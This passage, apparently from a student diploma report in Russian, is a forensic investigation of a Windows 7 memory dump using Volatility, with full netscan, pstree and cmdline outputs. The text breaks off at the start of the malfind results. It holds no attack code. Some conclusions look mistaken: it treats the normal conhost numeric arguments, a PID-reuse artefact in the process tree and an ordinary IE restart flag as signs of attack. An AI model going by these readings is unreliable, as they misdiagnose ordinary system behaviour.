# 13. Дипломная работа по профессии «Специалист по информационной безопасности». Track Forensics. - Андрей Смирнов.

## Track Forensics

### Описание инцидента
Службой безопасности компании «Х» была зафиксирована подозрительная сетевая активность. Вам нужно проанализировать ситуацию, расследовать инцидент и найти следы активности атакующих.
У вас есть дамп оперативной памяти и побитовая копия диска хоста, которые могут содержать информацию об инциденте. 
Вам нужно подготовить подробный отчёт о проведённом расследовании.

Практические навыки, необходимые для выполнения дипломной работы:
* работа с дампами оперативной памяти;
* работа с побитовыми копиями;
* анализ активности атакующих;
* восстановление техник и тактик атакующих;
* составление отчёта о криминалистическом исследовании.

Исходные данные:
* дамп оперативной памяти;
* побитовая копия диска.

Ссылки на материалы для исследования есть в личном кабинете.

### Задача

Составить подробный отчёт о проведённом расследовании. Он должен включать себя информацию, подкреплённую доказательствами в виде скриншотов:
* обнаруженные следы атакующих;
* восстановление картины произошедшего инцидента в виде описания характеристики инцидента;
* маппинг действий атакующих по матрице MITRE ATT&CK;
* предложения по ликвидации последствий и восстановлению.

### Пример структуры отчёта

  1.    Характеристика инцидента.    
  2.    Описание инцидента по матрице MITRE ATT&CK.    
    2.1.    Первоначальное проникновение (Initial Access).    
    2.2.    ***************    
    2.3.    ***************    
    2.\*.    ***************    
    2.\*.    ***************    
  3. Рекомендации по ликвидации последствий инцидента и восстановлению.   

### Виды документов для отчёта

1. Характеристика инцидента — в виде текстового пояснения, описывающего ход инцидента, а также отражать действия атакующих на каждом из этапов без технических подробностей.
2. Маппинг действий атакующих по матрице MITRE ATT&CK — в виде таблицы, отражающей соответствие тактики и техник, которые использовали атакующие в рамках исследуемого инцидента.

Описание каждого из этапов инцидента по матрице MITRE ATT&CK нужно оформить в формате:
* указать технику;
* дать описание действиям атакующих и выполненным процедурам;
* подкрепить выводы скриншотами.

В конце отчёта в рамках дополнительного задания можно дать рекомендации по ликвидации последствий инцидента и восстановлению.


----


# Расследование инцидента

В ходе расследования инцидента я максимально подробно постараюсь расписать все выполненные действия и подкрепить их выводом команд и/или скриншотами. На основе полученных данных будут выдвигаться различные гипотезы, часть из них может подтвердиться, а остальные - нет, выводы будут сделаны на основе подтвержденных данных. По окончанию расследования я сформирую краткий итоговый отчет не перегружая его техническими данными (если возникнут вопросы о тех или иных выводах - их обоснование можно будет найти в расследовании). 


## Анализ дампа памяти:

Начать расследование инцидента логичнее всего с анализа дампа оперативной памяти, для этого я буду использовать утилиту volatility, а именно `volatility_2.6_win64_standalone.exe`. 
Для эффективной работы с дампом необходимо определить какая операционная использовалась на исходном ПК (определить ее профиль), для этого выполним команду `.\volatility_2.6_win64_standalone.exe -f Incident.mem imageinfo` (я предварительно скопировал дамп в папку с утилитой). Как видно на скриншоте, утилита определила тип и версию ОС как `Win7SP1x86` , так же мы получили дату и время снятия данного дампа - `2019-03-10 13:06:28 UTC`:





### Анализ сетевых соединений:

После определения профиля операционной системы можно приступать к анализу дампа памяти, аномалии начнем искать с сетевых соединений, для этого воспользуемся плагином волатилити `netscan` и укажем ранее полученный профиль ОС. Т.е. итоговая команда для анализа сетевой активности в дампе будет иметь вид `.\volatility_2.6_win64_standalone.exe -f Incident.mem --profile Win7SP1x86 netscan` . Результат вывода данной команды:






```
Volatility Foundation Volatility Framework 2.6
Offset(P)          Proto    Local Address                  Foreign Address      State            Pid      Owner          Created
0x51a2858          UDPv6    fe80::80ac:4126:fa58:1b81:546  *:*                                   776      svchost.exe    2019-03-10 13:04:58 UTC+0000
0x51bef58          TCPv4    0.0.0.0:3389                   0.0.0.0:0            LISTENING        1176     svchost.exe
0xde62c360         UDPv4    0.0.0.0:3702                   *:*                                   876      svchost.exe    2019-03-10 12:58:31 UTC+0000
0xde62c360         UDPv6    :::3702                        *:*                                   876      svchost.exe    2019-03-10 12:58:31 UTC+0000
0xde63a728         UDPv4    0.0.0.0:3702                   *:*                                   876      svchost.exe    2019-03-10 12:58:31 UTC+0000
0xde663ab0         UDPv4    0.0.0.0:56208                  *:*                                   876      svchost.exe    2019-03-10 12:58:31 UTC+0000
0xde663ab0         UDPv6    :::56208                       *:*                                   876      svchost.exe    2019-03-10 12:58:31 UTC+0000
0xde6e0e18         UDPv6    ::1:1900                       *:*                                   1444     svchost.exe    2019-03-10 12:58:31 UTC+0000
0xde7dd738         UDPv6    fe80::80ac:4126:fa58:1b81:546  *:*                                   776      svchost.exe    2019-03-10 12:57:51 UTC+0000
0xdea8a0d0         UDPv4    192.168.1.74:56205             *:*                                   1444     svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdea96780         UDPv6    fe80::80ac:4126:fa58:1b81:56203 *:*                                   1444     svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdebd2d98         UDPv4    0.0.0.0:65281                  *:*                                   1444     svchost.exe    2019-03-10 11:32:20 UTC+0000
0xdebd2d98         UDPv6    :::65281                       *:*                                   1444     svchost.exe    2019-03-10 11:32:20 UTC+0000
0xdebd2e50         UDPv4    0.0.0.0:3702                   *:*                                   1444     svchost.exe    2019-03-10 11:32:25 UTC+0000
0xdebd33a8         UDPv4    0.0.0.0:3702                   *:*                                   1444     svchost.exe    2019-03-10 11:32:25 UTC+0000
0xdebd33a8         UDPv6    :::3702                        *:*                                   1444     svchost.exe    2019-03-10 11:32:25 UTC+0000
0xdebd5c90         UDPv4    0.0.0.0:65280                  *:*                                   1444     svchost.exe    2019-03-10 11:32:20 UTC+0000
0xded96968         UDPv4    192.168.1.74:137               *:*                                   4        System         2019-03-10 11:32:19 UTC+0000
0xded99de8         UDPv4    192.168.1.74:138               *:*                                   4        System         2019-03-10 11:32:19 UTC+0000
0xdedc50c8         UDPv6    fe80::80ac:4126:fa58:1b81:546  *:*                                   776      svchost.exe    2019-03-10 12:29:22 UTC+0000
0xdeef4488         UDPv4    0.0.0.0:0                      *:*                                   2044     svchost.exe    2019-03-10 11:32:25 UTC+0000
0xdeef4488         UDPv6    :::0                           *:*                                   2044     svchost.exe    2019-03-10 11:32:25 UTC+0000
0xdeef4880         UDPv4    0.0.0.0:0                      *:*                                   2044     svchost.exe    2019-03-10 11:32:25 UTC+0000
0xdeef5c98         UDPv4    0.0.0.0:3702                   *:*                                   1444     svchost.exe    2019-03-10 11:32:25 UTC+0000
0xdeef5e50         UDPv4    0.0.0.0:3702                   *:*                                   1444     svchost.exe    2019-03-10 11:32:25 UTC+0000
0xdeef5e50         UDPv6    :::3702                        *:*                                   1444     svchost.exe    2019-03-10 11:32:25 UTC+0000
0xde8153d0         TCPv4    0.0.0.0:22                     0.0.0.0:0            LISTENING        1740     sshd.exe
0xde815ca0         TCPv4    0.0.0.0:22                     0.0.0.0:0            LISTENING        1740     sshd.exe
0xde815ca0         TCPv6    :::22                          :::0                 LISTENING        1740     sshd.exe
0xde81e4a8         TCPv4    0.0.0.0:49155                  0.0.0.0:0            LISTENING        464      services.exe
0xde81e4a8         TCPv6    :::49155                       :::0                 LISTENING        464      services.exe
0xde81e998         TCPv4    0.0.0.0:445                    0.0.0.0:0            LISTENING        4        System
0xde81e998         TCPv6    :::445                         :::0                 LISTENING        4        System
0xde828108         TCPv4    0.0.0.0:49155                  0.0.0.0:0            LISTENING        464      services.exe
0xde858278         TCPv4    0.0.0.0:49156                  0.0.0.0:0            LISTENING        472      lsass.exe
0xde858278         TCPv6    :::49156                       :::0                 LISTENING        472      lsass.exe
0xde858470         TCPv4    0.0.0.0:49156                  0.0.0.0:0            LISTENING        472      lsass.exe
0xdebc2700         TCPv4    0.0.0.0:5357                   0.0.0.0:0            LISTENING        4        System
0xdebc2700         TCPv6    :::5357                        :::0                 LISTENING        4        System
0xdec3aa78         TCPv4    0.0.0.0:49153                  0.0.0.0:0            LISTENING        776      svchost.exe
0xdeca4328         TCPv4    0.0.0.0:135                    0.0.0.0:0            LISTENING        692      svchost.exe
0xdeca5b80         TCPv4    0.0.0.0:135                    0.0.0.0:0            LISTENING        692      svchost.exe
0xdeca5b80         TCPv6    :::135                         :::0                 LISTENING        692      svchost.exe
0xdecab8f0         TCPv4    0.0.0.0:49152                  0.0.0.0:0            LISTENING        368      wininit.exe
0xdecadf58         TCPv4    0.0.0.0:49152                  0.0.0.0:0            LISTENING        368      wininit.exe
0xdecadf58         TCPv6    :::49152                       :::0                 LISTENING        368      wininit.exe
0xdeda3258         TCPv4    192.168.1.74:139               0.0.0.0:0            LISTENING        4        System
0xdeffd088         TCPv4    0.0.0.0:49153                  0.0.0.0:0            LISTENING        776      svchost.exe
0xdeffd088         TCPv6    :::49153                       :::0                 LISTENING        776      svchost.exe
0xded12c88         TCPv4    192.168.1.74:3389              192.168.1.71:46338   CLOSED           -1
0xdf40a6b0         UDPv4    0.0.0.0:5355                   *:*                                   1176     svchost.exe    2019-03-10 11:32:22 UTC+0000
0xdf40a6b0         UDPv6    :::5355                        *:*                                   1176     svchost.exe    2019-03-10 11:32:22 UTC+0000
0xdf54e5a8         UDPv4    0.0.0.0:0                      *:*                                   1176     svchost.exe    2019-03-10 11:32:19 UTC+0000
0xdf54e5a8         UDPv6    :::0                           *:*                                   1176     svchost.exe    2019-03-10 11:32:19 UTC+0000
0xdf5d3f50         UDPv4    0.0.0.0:5355                   *:*                                   1176     svchost.exe    2019-03-10 11:32:22 UTC+0000
0xdfa32008         UDPv4    0.0.0.0:0                      *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa33768         UDPv4    0.0.0.0:0                      *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa33768         UDPv6    :::0                           *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa355f8         UDPv4    0.0.0.0:0                      *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa355f8         UDPv6    :::0                           *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa357a8         UDPv4    0.0.0.0:0                      *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa7af50         UDPv4    0.0.0.0:3702                   *:*                                   876      svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdfa7af50         UDPv6    :::3702                        *:*                                   876      svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdfaa1490         UDPv4    0.0.0.0:56207                  *:*                                   876      svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdf23e7b8         TCPv4    0.0.0.0:3389                   0.0.0.0:0            LISTENING        1176     svchost.exe
0xdf23e7b8         TCPv6    :::3389                        :::0                 LISTENING        1176     svchost.exe
0xdf566550         TCPv4    0.0.0.0:49154                  0.0.0.0:0            LISTENING        912      svchost.exe
0xdf567d90         TCPv4    0.0.0.0:49154                  0.0.0.0:0            LISTENING        912      svchost.exe
0xdf567d90         TCPv6    :::49154                       :::0                 LISTENING        912      svchost.exe
0xdfac3f58         TCPv4    0.0.0.0:2869                   0.0.0.0:0            LISTENING        4        System
0xdfac3f58         TCPv6    :::2869                        :::0                 LISTENING        4        System
0xdf766198         TCPv4    192.168.1.74:62558             192.168.1.71:80      CLOSED           -1
0xdfc944b8         UDPv4    0.0.0.0:0                      *:*                                   912      svchost.exe    2019-03-10 13:07:18 UTC+0000
0xdfc944b8         UDPv6    :::0                           *:*                                   912      svchost.exe    2019-03-10 13:07:18 UTC+0000
0xdfcbb410         UDPv4    0.0.0.0:0                      *:*                                   640      VBoxService.ex 2019-03-10 13:06:57 UTC+0000
0xdfcf7f50         UDPv4    127.0.0.1:56206                *:*                                   1444     svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdfd09640         UDPv6    ::1:56204                      *:*                                   1444     svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdfd1d2e8         UDPv4    0.0.0.0:3702                   *:*                                   876      svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdfd67200         UDPv4    192.168.1.74:1900              *:*                                   1444     svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdfd801b8         UDPv6    fe80::80ac:4126:fa58:1b81:1900 *:*                                   1444     svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdfdaecc8         UDPv4    127.0.0.1:1900                 *:*                                   1444     svchost.exe    2019-03-10 12:58:31 UTC+0000
0xdfcff778         TCPv4    192.168.1.74:49185             40.115.119.185:443   CLOSED           -1
0xdfde6280         TCPv4    192.168.1.74:62552             40.115.119.185:443   ESTABLISHED      -1
```


Проанализировав вывод команды, я бы отметил несколько подозрительных моментов:

1. Наличие SSH-сервера на машине под управлением Windows:

```
0xde8153d0         TCPv4    0.0.0.0:22                     0.0.0.0:0            LISTENING        1740     sshd.exe
0xde815ca0         TCPv4    0.0.0.0:22                     0.0.0.0:0            LISTENING        1740     sshd.exe
```

2. Ряд сетевых соединений PowerShell на нулевом порту (может указывать на запуск скриптов). Так же отметим время данных событий - `12:30:36 UTC`:

```
0xdfa32008         UDPv4    0.0.0.0:0                      *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa33768         UDPv4    0.0.0.0:0                      *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa33768         UDPv6    :::0                           *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa355f8         UDPv4    0.0.0.0:0                      *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa355f8         UDPv6    :::0                           *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
0xdfa357a8         UDPv4    0.0.0.0:0                      *:*                                   3672     powershell.exe 2019-03-10 12:30:36 UTC+0000
```

3. RDP-соединение c адреса `192.168.1.71`, на самом ПК адрес `192.168.1.74`:

```
0xded12c88         TCPv4    192.168.1.74:3389              192.168.1.71:46338   CLOSED           -1
```

4. Факт установления защищенного https-соедения с публичным ip-адресом `40.115.119.185` 

```
0xdfcff778         TCPv4    192.168.1.74:49185             40.115.119.185:443   CLOSED           -1
0xdfde6280         TCPv4    192.168.1.74:62552             40.115.119.185:443   ESTABLISHED      -1
```

Итого по результатам анализа сетевых соединений сформирован список подозрительных моментов для дальнейшего исследования. Необходимо проверить процессы sshd.exe (PID 1740) и powershell.exe (PID 3672), а так же посмотреть историю по адресу `40.115.119.185` и уточнить момент с RDP-подключением с хоста с адресом `192.168.1.71`.

Начнем с простого и посмотрим что знает virustotal о данном ip-адресе `40.115.119.185`. На первый взгляд, ничего криминального - адрес относится к автономной системе Microsoft и имеет нулевой рейтинг:





Однако если посмотреть глубже, видно что с данным адресом взаимодействует много разных файлов, в том числе и вирусы:








### Анализ процессов:


Далее посмотрим данные по процессам в древовидном виде, для этого воспользуемся командой `.\volatility_2.6_win64_standalone.exe -f Incident.mem --profile Win7SP1x86 pstree` . Вот скриншоты и вывод команды:








```
Volatility Foundation Volatility Framework 2.6
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0x8596ad20:spoolsv.exe                              1280    464     13    287 2019-03-10 11:32:19 UTC+0000
 0x86088030:VBoxService.ex                            640    464     12    118 2019-03-10 11:32:16 UTC+0000
 0x860b7140:svchost.exe                               776    464     18    510 2019-03-10 11:32:16 UTC+0000
. 0x851d6d20:audiodg.exe                             1988    776      5    161 2019-03-10 12:30:40 UTC+0000
 0x86430030:sppsvc.exe                               1932    464      4    149 2019-03-10 11:32:21 UTC+0000
 0x86108608:svchost.exe                               912    464     33   1092 2019-03-10 11:32:16 UTC+0000
. 0x863f7a70:wuauclt.exe                             2412    912      3     87 2019-03-10 12:57:25 UTC+0000
 0x85946d20:svchost.exe                              1176    464     22    604 2019-03-10 11:32:19 UTC+0000
 0x851f4a38:taskhost.exe                              324    464      9    273 2019-03-10 12:30:35 UTC+0000
. 0x85ebb030:csrss.exe                                332    324      9    503 2019-03-10 11:32:11 UTC+0000
.. 0x863e9030:conhost.exe                            1716    332      2     33 2019-03-10 11:32:20 UTC+0000
. 0x85dbf030:wininit.exe                              368    324      3     78 2019-03-10 11:32:14 UTC+0000
.. 0x86001200:services.exe                            464    368      8    214 2019-03-10 11:32:15 UTC+0000
... 0x859783e0:svchost.exe                           1316    464     19    312 2019-03-10 11:32:19 UTC+0000
... 0x85f67688:svchost.exe                           2604    464     17    390 2019-03-10 11:34:21 UTC+0000
... 0x859be5b8:svchost.exe                           1416    464     13    372 2019-03-10 11:32:20 UTC+0000
... 0x86097918:svchost.exe                            692    464      7    268 2019-03-10 11:32:16 UTC+0000
... 0x85f8e8c0:SearchIndexer.                        2624    464     13    689 2019-03-10 11:34:23 UTC+0000
... 0x84fad4e0:cygrunsrv.exe                         1600    464      6    101 2019-03-10 11:32:20 UTC+0000
.... 0x863e5030:cygrunsrv.exe                        1700   1600      0 ------ 2019-03-10 11:32:20 UTC+0000
..... 0x863ef030:sshd.exe                            1740   1700      4    100 2019-03-10 11:32:20 UTC+0000
... 0x8606aa20:svchost.exe                            580    464     10    355 2019-03-10 11:32:16 UTC+0000
.... 0x8614c8e0:WmiPrvSE.exe                         2480    580     11    236 2019-03-10 12:40:31 UTC+0000
.... 0x850a6870:WmiPrvSE.exe                         3292    580      7    195 2019-03-10 12:40:53 UTC+0000
... 0x860f6388:svchost.exe                            840    464     17    387 2019-03-10 11:32:16 UTC+0000
.... 0x851fc180:dwm.exe                              3300    840      3     72 2019-03-10 12:30:35 UTC+0000
... 0x86446b70:svchost.exe                           2044    464      5     92 2019-03-10 11:32:22 UTC+0000
... 0x859d7030:svchost.exe                           1444    464     21    355 2019-03-10 11:32:20 UTC+0000
... 0x860ff888:svchost.exe                            876    464     33    641 2019-03-10 11:32:16 UTC+0000
... 0x863cc308:wlms.exe                              1652    464      4     46 2019-03-10 11:32:20 UTC+0000
... 0x86145630:svchost.exe                           1020    464      5    121 2019-03-10 11:32:19 UTC+0000
.. 0x86007b00:lsass.exe                               472    368      8    855 2019-03-10 11:32:15 UTC+0000
.. 0x86008030:lsm.exe                                 480    368     11    218 2019-03-10 11:32:15 UTC+0000
 0x859783e0:svchost.exe                              1316    464     19    312 2019-03-10 11:32:19 UTC+0000
WARNING : volatility.debug    : PID 1316 PPID 464 has already been seen
 0x85f67688:svchost.exe                              2604    464     17    390 2019-03-10 11:34:21 UTC+0000
WARNING : volatility.debug    : PID 2604 PPID 464 has already been seen
 0x859be5b8:svchost.exe                              1416    464     13    372 2019-03-10 11:32:20 UTC+0000
WARNING : volatility.debug    : PID 1416 PPID 464 has already been seen
 0x86097918:svchost.exe                               692    464      7    268 2019-03-10 11:32:16 UTC+0000
WARNING : volatility.debug    : PID 692 PPID 464 has already been seen
 0x85f8e8c0:SearchIndexer.                           2624    464     13    689 2019-03-10 11:34:23 UTC+0000
WARNING : volatility.debug    : PID 2624 PPID 464 has already been seen
 0x84fad4e0:cygrunsrv.exe                            1600    464      6    101 2019-03-10 11:32:20 UTC+0000
WARNING : volatility.debug    : PID 1600 PPID 464 has already been seen
 0x8606aa20:svchost.exe                               580    464     10    355 2019-03-10 11:32:16 UTC+0000
WARNING : volatility.debug    : PID 580 PPID 464 has already been seen
 0x860f6388:svchost.exe                               840    464     17    387 2019-03-10 11:32:16 UTC+0000
WARNING : volatility.debug    : PID 840 PPID 464 has already been seen
 0x86446b70:svchost.exe                              2044    464      5     92 2019-03-10 11:32:22 UTC+0000
WARNING : volatility.debug    : PID 2044 PPID 464 has already been seen
 0x859d7030:svchost.exe                              1444    464     21    355 2019-03-10 11:32:20 UTC+0000
WARNING : volatility.debug    : PID 1444 PPID 464 has already been seen
 0x860ff888:svchost.exe                               876    464     33    641 2019-03-10 11:32:16 UTC+0000
WARNING : volatility.debug    : PID 876 PPID 464 has already been seen
 0x863cc308:wlms.exe                                 1652    464      4     46 2019-03-10 11:32:20 UTC+0000
WARNING : volatility.debug    : PID 1652 PPID 464 has already been seen
 0x86145630:svchost.exe                              1020    464      5    121 2019-03-10 11:32:19 UTC+0000
WARNING : volatility.debug    : PID 1020 PPID 464 has already been seen
 0x84ed1b90:System                                      4      0     90    566 2019-03-10 11:32:09 UTC+0000
. 0x85783280:smss.exe                                 252      4      2     29 2019-03-10 11:32:09 UTC+0000
 0x851f4440:explorer.exe                             3484   3692     31    946 2019-03-10 12:30:35 UTC+0000
. 0x85256468:iexplore.exe                             992   3484     10    461 2019-03-10 12:30:40 UTC+0000
.. 0x85250d20:iexplore.exe                           1776    992     29    706 2019-03-10 12:30:40 UTC+0000
. 0x85255d20:VBoxTray.exe                            2700   3484     13    142 2019-03-10 12:30:40 UTC+0000
. 0x853239e0:FTK Imager.exe                          1812   3484     18    446 2019-03-10 13:05:52 UTC+0000
 0x851fea60:cmd.exe                                  3008   3692      1     25 2019-03-10 12:30:35 UTC+0000
. 0x85206030:powershell.exe                          3672   3008     12    382 2019-03-10 12:30:35 UTC+0000
 0x85fc9b20:winlogon.exe                              404    360      3    114 2019-03-10 11:32:14 UTC+0000
 0x84fbba78:csrss.exe                                 376    360      8    290 2019-03-10 11:32:14 UTC+0000
. 0x85204320:conhost.exe                             1540    376      2     50 2019-03-10 12:30:35 UTC+0000
 0x851b9d20:MpCmdRun.exe                             1984   2936      6    239 2019-03-10 13:06:39 UTC+0000
```


1. SSH-сервер был запущен с помощью Cygwin (Linux-подобной среды для Windows), что выглядит подозрительно:

```
... 0x84fad4e0:cygrunsrv.exe                         1600    464      6    101 2019-03-10 11:32:20 UTC+0000
.... 0x863e5030:cygrunsrv.exe                        1700   1600      0 ------ 2019-03-10 11:32:20 UTC+0000
..... 0x863ef030:sshd.exe                            1740   1700      4    100 2019-03-10 11:32:20 UTC+0000
```


2. Интересующий нас powershell был запущен из командной строки, возможно запуск выполнялся скриптом, надо будет проверить аргументы:

```
 0x851fea60:cmd.exe                                  3008   3692      1     25 2019-03-10 12:30:35 UTC+0000
. 0x85206030:powershell.exe                          3672   3008     12    382 2019-03-10 12:30:35 UTC+0000
```


3. Так же к аномалиям можно отнести запуск процесса csrss.exe (PID 332) процессом taskhost.exe, хотя обычно он порождается процессом smss.exe. Причем запуск taskhost.exe совпадает с запуском командной строки и Powershell (12:30:35), после чего началась подозрительная сетевая активность у последнего.


```
 0x851f4a38:taskhost.exe                              324    464      9    273 2019-03-10 12:30:35 UTC+0000
. 0x85ebb030:csrss.exe                                332    324      9    503 2019-03-10 11:32:11 UTC+0000
.. 0x863e9030:conhost.exe                            1716    332      2     33 2019-03-10 11:32:20 UTC+0000
```


4. По времени (12:30:35 UTC) так же коррелирует запуск процесса explorer.exe и затем порождение Iexplorer.exe 

```
 0x851f4440:explorer.exe                             3484   3692     31    946 2019-03-10 12:30:35 UTC+0000
. 0x85256468:iexplore.exe                             992   3484     10    461 2019-03-10 12:30:40 UTC+0000
.. 0x85250d20:iexplore.exe                           1776    992     29    706 2019-03-10 12:30:40 UTC+0000
```


### Проверка аргументов командной строки:


Проверим какие параметры использовались при запуске программ и служб при помощи команды `.\volatility_2.6_win64_standalone.exe -f Incident.mem --profile Win7SP1x86 cmdline`. Ниже представлены скриншоты и вывод указанной команды:









```
Volatility Foundation Volatility Framework 2.6
************************************************************************
System pid:      4
************************************************************************
smss.exe pid:    252
Command line : \SystemRoot\System32\smss.exe
************************************************************************
csrss.exe pid:    332
Command line : %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,12288,512 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=winsrv:ConServerDllInitialization,2 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
************************************************************************
wininit.exe pid:    368
Command line : wininit.exe
************************************************************************
csrss.exe pid:    376
Command line : %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,12288,512 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=winsrv:ConServerDllInitialization,2 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
************************************************************************
winlogon.exe pid:    404
Command line : winlogon.exe
************************************************************************
services.exe pid:    464
Command line : C:\Windows\system32\services.exe
************************************************************************
lsass.exe pid:    472
Command line : C:\Windows\system32\lsass.exe
************************************************************************
lsm.exe pid:    480
Command line : C:\Windows\system32\lsm.exe
************************************************************************
svchost.exe pid:    580
Command line : C:\Windows\system32\svchost.exe -k DcomLaunch
************************************************************************
VBoxService.ex pid:    640
Command line : C:\Windows\System32\VBoxService.exe
************************************************************************
svchost.exe pid:    692
Command line : C:\Windows\system32\svchost.exe -k RPCSS
************************************************************************
svchost.exe pid:    776
Command line : C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted
************************************************************************
svchost.exe pid:    840
Command line : C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted
************************************************************************
svchost.exe pid:    876
Command line : C:\Windows\system32\svchost.exe -k LocalService
************************************************************************
svchost.exe pid:    912
Command line : C:\Windows\system32\svchost.exe -k netsvcs
************************************************************************
svchost.exe pid:   1020
Command line : C:\Windows\system32\svchost.exe -k GPSvcGroup
************************************************************************
svchost.exe pid:   1176
Command line : C:\Windows\system32\svchost.exe -k NetworkService
************************************************************************
spoolsv.exe pid:   1280
Command line : C:\Windows\System32\spoolsv.exe
************************************************************************
svchost.exe pid:   1316
Command line : C:\Windows\system32\svchost.exe -k LocalServiceNoNetwork
************************************************************************
svchost.exe pid:   1416
Command line : C:\Windows\System32\svchost.exe -k utcsvc
************************************************************************
svchost.exe pid:   1444
Command line : C:\Windows\system32\svchost.exe -k LocalServiceAndNoImpersonation
************************************************************************
cygrunsrv.exe pid:   1600
Command line : "C:\Program Files\OpenSSH\bin\cygrunsrv.exe"
************************************************************************
wlms.exe pid:   1652
Command line : C:\Windows\system32\wlms\wlms.exe
************************************************************************
cygrunsrv.exe pid:   1700
************************************************************************
conhost.exe pid:   1716
Command line : \??\C:\Windows\system32\conhost.exe "538639267498848267-1306416709-1141630329-115703250-983314866-1518251301-442674640
************************************************************************
sshd.exe pid:   1740
Command line : "C:\Program Files\OpenSSH\usr\sbin\sshd.exe"
************************************************************************
sppsvc.exe pid:   1932
Command line : C:\Windows\system32\sppsvc.exe
************************************************************************
svchost.exe pid:   2044
Command line : C:\Windows\system32\svchost.exe -k NetworkServiceNetworkRestricted
************************************************************************
svchost.exe pid:   2604
Command line : C:\Windows\System32\svchost.exe -k secsvcs
************************************************************************
SearchIndexer. pid:   2624
Command line : C:\Windows\system32\SearchIndexer.exe /Embedding
************************************************************************
taskhost.exe pid:    324
Command line : "taskhost.exe"
************************************************************************
dwm.exe pid:   3300
Command line : "C:\Windows\system32\Dwm.exe"
************************************************************************
explorer.exe pid:   3484
Command line : C:\Windows\Explorer.EXE
************************************************************************
cmd.exe pid:   3008
Command line : C:\Windows\system32\cmd.exe /c C:\Users\Wilfred\AppData\Roaming\Identities\Updater.bat
************************************************************************
conhost.exe pid:   1540
Command line : \??\C:\Windows\system32\conhost.exe "1238788108538425884-910628392408509066-9957047621558862419-5072041261499987778
************************************************************************
powershell.exe pid:   3672
Command line :
************************************************************************
VBoxTray.exe pid:   2700
Command line : "C:\Windows\System32\VBoxTray.exe"
************************************************************************
iexplore.exe pid:    992
Command line : "C:\Program Files\Internet Explorer\iexplore.exe" -restart /WERRESTART
************************************************************************
iexplore.exe pid:   1776
Command line : "C:\Program Files\Internet Explorer\iexplore.exe" SCODEF:992 CREDAT:209921 /prefetch:2
************************************************************************
audiodg.exe pid:   1988
Command line : C:\Windows\system32\AUDIODG.EXE 0x77c
************************************************************************
WmiPrvSE.exe pid:   2480
Command line : C:\Windows\system32\wbem\wmiprvse.exe
************************************************************************
WmiPrvSE.exe pid:   3292
Command line : C:\Windows\system32\wbem\wmiprvse.exe
************************************************************************
wuauclt.exe pid:   2412
Command line : "C:\Windows\system32\wuauclt.exe"
************************************************************************
FTK Imager.exe pid:   1812
Command line : "\\Vboxsvr\d_drive\Imager_Lite_3.1.1\FTK Imager.exe"
************************************************************************
MpCmdRun.exe pid:   1984
Command line :
```


1. Анализ с помощью плагина `cmdline` показал еще несколько аномальных моментов, в частности запуск консоли с длинными числовыми параметрами (похоже на хэши или идентификаторы), скорее всего злоумышленник таким образом идентифицировал конкретные ПК или сессии:

```
conhost.exe pid:   1716
Command line : \??\C:\Windows\system32\conhost.exe "538639267498848267-1306416709-1141630329-115703250-983314866-1518251301-442674640
************************************************************************
conhost.exe pid:   1540
Command line : \??\C:\Windows\system32\conhost.exe "1238788108538425884-910628392408509066-9957047621558862419-5072041261499987778
```


2. Запуск bat-файла `Updater.bat`,  который явно пытались спрятать подальше. Необходимо проанализировать его содержимое:

```
cmd.exe pid:   3008
Command line : C:\Windows\system32\cmd.exe /c C:\Users\Wilfred\AppData\Roaming\Identities\Updater.bat
```


3. Запуск Powershell без аргументов так же выглядит подозрительно, это может указывать на скрытое выполнение:

```
powershell.exe pid:   3672
Command line :
```


4. Подозрительное расположение SSH-сервера, обычно путь следующий `C:\Program Files\OpenSSH\sshd.exe`: 

```
sshd.exe pid:   1740
Command line : "C:\Program Files\OpenSSH\usr\sbin\sshd.exe"
```


5. Запуск Internet explorer с параметром `restart` - так же не внушает доверия, возможно он используется для эксплуатации уязвимостей.

```
iexplore.exe pid:    992
Command line : "C:\Program Files\Internet Explorer\iexplore.exe" -restart /WERRESTART
************************************************************************
iexplore.exe pid:   1776
Command line : "C:\Program Files\Internet Explorer\iexplore.exe" SCODEF:992 CREDAT:209921 /prefetch:2
```


### Проверка процессов на наличие внедренного кода:

Проверим процессы  на предмет внедренного кода с помощью команды `.\volatility_2.6_win64_standalone.exe -f Incident.mem --profile Win7SP1x86 malfind`. Ниже представлен полный вывод указанной команды:


```
Volatility Foundation Volatility Framework 2.6
Process: svchost.exe Pid: 876 Address: 0x220000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 2, MemCommit: 1, PrivateMemory: 1, Protection: 6

